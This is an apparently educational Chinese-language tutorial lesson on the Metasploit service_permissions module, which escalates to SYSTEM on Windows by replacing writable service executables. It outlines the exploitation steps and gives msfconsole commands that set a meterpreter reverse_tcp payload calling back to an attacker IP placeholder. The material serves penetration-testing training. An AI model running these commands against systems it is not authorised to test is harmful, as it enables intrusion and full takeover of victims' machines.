







# 网络安全系统教程：P94：81.service_permissions模块



## 概述
在本节课中，我们将学习Metasploit框架中的`service_permissions`模块。该模块用于利用Windows系统中服务权限配置不当的漏洞，从而获取系统权限。我们将了解其工作原理、利用流程以及相关核心概念。



---



## 服务权限漏洞原理
上一节我们介绍了其他类型的权限提升漏洞，本节中我们来看看服务权限漏洞。



该漏洞的核心在于，Windows系统中某些服务被配置了过高的权限，或者其可执行文件的路径允许低权限用户进行修改。攻击者可以利用此缺陷，将服务的合法程序替换为恶意程序，当服务重启或系统重启时，恶意程序便会以高权限（通常是`SYSTEM`权限）执行。



**核心概念**可以表示为以下逻辑：
```
如果 服务A的二进制文件路径 可被 当前用户 写入
那么 将服务A的二进制文件 替换为 恶意程序B
当 服务A重启 时
恶意程序B 将以 服务A的权限 执行
```

---

## 模块利用流程
以下是`service_permissions`模块在Metasploit中典型的利用步骤。

1.  **信息枚举**：模块首先会扫描目标系统，查找当前用户拥有写入权限的服务可执行文件路径。
2.  **选择目标**：从发现的可利用服务中选取一个作为目标。
3.  **备份原文件**：模块会尝试备份原始的服务可执行文件，以便后续恢复（在渗透测试中可能用于清理痕迹）。
4.  **部署Payload**：将生成的恶意Payload（如反向Shell）写入到目标服务的可执行文件路径。
5.  **触发执行**：通过重启服务或等待系统事件触发恶意程序的执行。
6.  **获取会话**：成功执行后，攻击者会获得一个高权限的Meterpreter会话。

---

## 模块使用与效果
我们可以直接通过MSF控制台使用该模块。其命令格式通常如下：
```bash
use exploit/windows/local/service_permissions
set SESSION <已存在的会话ID>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <攻击者IP>
set LPORT <攻击者端口>
exploit
```



执行后，模块会自动化完成上述流程。从示例截图可以看到，模块成功找到了如`360RP`、`AeLookupSvc`等权限配置不当的服务，并利用`AJRouter`服务完成了权限提升，最终获得了`SYSTEM`权限的Meterpreter会话。

---



## 总结
本节课我们一起学习了`service_permissions`模块。该模块利用Windows服务权限配置漏洞，通过替换服务可执行文件的方式实现权限提升。理解其“查找可写服务路径 -> 替换文件 -> 触发执行”的核心流程，对于掌握Windows系统本地提权技术至关重要。在实际渗透测试中，这是获取系统级权限的有效手段之一。